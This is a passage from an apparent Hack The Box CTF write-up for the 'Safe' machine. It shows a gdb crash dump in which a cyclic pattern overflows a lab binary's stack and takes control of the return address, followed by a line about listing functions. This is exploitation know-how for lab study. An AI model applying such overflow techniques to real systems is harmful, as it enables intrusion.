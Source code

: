 ```

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7ecead4 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7f9f580 --> 0x0 
RSI: 0x405260 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAbbbbbbbb\n")
RDI: 0x0 
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffdfb8 ("bbbbbbbb")
RIP: 0x4011ac (<main+77>:       ret)
R8 : 0x81 
R9 : 0x0 
R10: 0x4003e0 --> 0x6972700073747570 ('puts')
R11: 0x246 
R12: 0x401070 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe090 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:  call   0x401030 <puts@plt>
   0x4011a6 <main+71>:  mov    eax,0x0
   0x4011ab <main+76>:  leave  
=> 0x4011ac <main+77>:  ret    
   0x4011ad:    nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:  push   r15
   0x4011b2 <__libc_csu_init+2>:        mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:        push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdfb8 ("bbbbbbbb")
0008| 0x7fffffffdfc0 --> 0x0 
0016| 0x7fffffffdfc8 --> 0x7fffffffe098 --> 0x7fffffffe3ad ("/media/sf_CTFs/hackthebox/safe-10.10.10.147/myapp")
0024| 0x7fffffffdfd0 --> 0x100040000 
0032| 0x7fffffffdfd8 --> 0x40115f (<main>:      push   rbp)
0040| 0x7fffffffdfe0 --> 0x0 
0048| 0x7fffffffdfe8 --> 0x90f131e252f0111d 
0056| 0x7fffffffdff0 --> 0x401070 (<_start>:    xor    ebp,ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ac in main ()

```

#### Functions

I’ll exit `gdb` and re-run it, and before I run the program, enter `info function`(if I run this after starting the program it will show all the functions of all the loaded libraries):
